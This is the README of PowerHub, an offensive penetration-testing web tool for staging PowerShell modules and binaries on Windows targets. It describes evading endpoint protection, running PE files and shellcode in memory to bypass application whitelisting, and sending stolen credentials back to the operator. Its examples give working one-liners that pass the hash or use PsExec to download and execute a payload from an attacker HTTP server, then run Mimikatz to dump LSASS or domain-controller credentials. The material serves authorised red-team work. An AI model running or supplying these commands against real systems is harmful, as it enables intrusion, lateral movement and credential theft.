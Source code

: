 PowerHub
========

PowerHub is a web application which aids a pentester in transferring files,
in particular code which may get flagged by endpoint protection.

![PowerHub Webapp](https://github.com/AdrianVollmer/PowerHub/blob/master/img/powerhub-webapp.png)

During an engagement where you have a test client available, one of the
first things you want to do is run PowerSploit. So you need to download the
files, messing with endpoint protection, disable the execution policy, etc.
PowerHub provides an (almost) one-click-solution for this. Oh, and you can
also run arbitrary binaries (PE and shell code) entirely in-memory using
PowerSploit's modules, which is sometimes useful to bypass application
whitelisting.

Your loot (Kerberos tickets, passwords, etc.) can be easily transferred back
either as a file or a text snippet. PowerHub also helps with collaboration
in case you're a small team.

How it works
============

The web application is made with Flask and consists of three parts.

The Hub
-------

The hub uses PowerShell to load modules and binaries in memory. The binaries
can be executed directly from memory with
[PowerSploit's](https://github.com/PowerShellMafia/PowerSploit)
`Invoke-ReflectivePEInjection`.

Modules have to be placed in `./modules` and can be either PowerShell
scripts, PE executables, or shell code. You can load them on the target via
PowerShell with `Load-HubModule`. Run `Help-PowerHub` for more information.

PowerHub on the attacker system simply looks for `*.ps1` or `*.exe` files.
They need to be in their respective directory, though, so `exe` files need
to be in `modules/exe` (or at least symlinked), and so forth. The `*.ps1`
files are imported on the target via `[Scriptblock]::Create()`.

A simple interface to install modules is provided for your convenience.

The Clipboard
-------------

The clipboard functionality is meant for exchanging small snippets, such as
hashes, passwords, one-liners, and so forth. It's like an extremely basic
[Etherpad](https://etherpad.org/) or a guest book, but non-persistent.

The File Exchange
-----------------

The file exchange offers a way to transfer files via HTTP back to the host.
Think [Droopy](https://github.com/stackp/Droopy).

Usage
=====

PowerHub has two mandatory arguments: the first is the callback host (can be
an IP address) and the second is either `--auth <user>:<pass>` or
`--no-auth`. The latter disables basic authentication which is *not
recommended*. This host name is used by the stager to download the payload.
If the callback port or path differ from the default, it can also be
changed.

Read `./powerhub.py --help` for details.

Examples
========

One nice application is, for example, the case where you have obtained some
local administrator password hash and want to move laterally. This dumps the
LSASS creds with Mimikatz via Impacket's `wmiexec.py`, tricking many
endpoint protection tools:

```
wmiexec.py -hashes :deadbeef0000000000000000deadbeef \
    ./administrator@10.0.1.4  \
    'powershell -c "$K=new-object net.webclient;IEX $K.downloadstring(\"http://10.0.100.13:8000/0\"); Load-Hubmodule Mimikatz ; Invoke-Mimikatz -DumpCreds "'
```

Or similarly, if you obtained the `krbtgt` hash and created a golden ticket
which you injected with Mimikatz. Then you can get the NTLM hash of any
arbitrary user in the forest:

```
PS C:\Users\pentestuser> .\PsExec64.exe \\DC01.acme.local -s powershell -c '$K=new-object net.webclient;IEX $K.downloadstring(\"http://192.168.1.5:8000/0\");load-hubmodule mimikatz; Invoke-Mimikatz -Command ''\"lsadump::lsa /inject /name:adm_targetuser\"'''
```

Getting the escape sequence on the quotes right can be tough...

Author
======

Adrian Vollmer, 2018-2019

Disclaimer
==========

Use at your own risk. Do not use without full consent of everyone involved.
For educational purposes only.
